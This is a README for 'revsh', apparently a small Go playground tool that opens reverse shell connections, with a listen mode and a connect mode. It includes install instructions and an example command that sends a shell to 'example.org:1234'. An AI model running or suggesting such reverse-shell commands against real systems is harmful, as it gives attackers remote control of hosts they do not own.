 revsh
=====

revsh establishes a reverse shell connection using two modes.

The client mode (default) executes a shell and pipes it's I/O to ADDR.

The server mode ("-l" flag) binds incoming connections on ADDR with standard
input.

Usually the server mode is used at a local host while the client mode is used at
a remote host.

Installation
------------

	go get github.com/mewmew/playground/revsh

Documentation
-------------

Documentation provided by GoDoc.

- [revsh][]: Establish a reverse shell connection using two modes.

[revsh]: http://godoc.org/github.com/mewmew/playground/revsh

Usage
-----

	revsh [OPTION]... ADDR

Flags:

	-l (default=false)
		Listen for incoming connections.

Examples
--------

1. Listen on port 1234.

		revsh -l :1234

2. Connect to server at "example.org" on port 1234.

		revsh example.org:1234
